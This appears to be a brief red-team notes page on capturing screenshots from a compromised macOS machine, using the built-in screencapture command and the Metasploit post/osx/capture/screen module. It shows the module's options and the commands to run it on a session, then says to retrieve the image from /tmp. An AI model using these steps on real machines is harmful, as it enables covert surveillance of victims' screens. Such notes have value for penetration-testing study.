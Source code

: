 # Screenshot

### 1.1 - Manual

- Mac OSX Screenshot program

`$ screencapture`

### 1.2 - Metasploit

- You can use a metasploit module as well and if you type `info` you can run a session type that it can be either a regular **Shell** or a **Meterpreter**

```
msf > use post/osx/capture/screen

msf post(osx/capture/screen) > options

Module options (post/osx/capture/screen):

   Name      Current Setting          Required  Description
   ----      ---------------          --------  -----------
   COUNT     1                        yes       Number of screenshots to collect.
   DELAY     10                       yes       Interval between screenshots in seconds. 0 for no delay
   EXE_PATH  /usr/sbin/screencapture  yes       Path to remote screencapture executable
   FILETYPE  png                      yes       File format to use when saving a snapshot (Accepted: png, gif)
   SESSION                            yes       The session to run this module on
   TMP_PATH  /tmp/<random>            yes       Path to remote temp directory

msf post(osx/capture/screen) > set session <session_id>

msf post(osx/capture/screen) > run
```

- Once you've took a screenshot download the file in the compromised Mac OSX machine that was stored in the `/tmp/` folder

---
## References

- [LOOBins: Screencapture](https://www.loobins.io/binaries/screencapture/)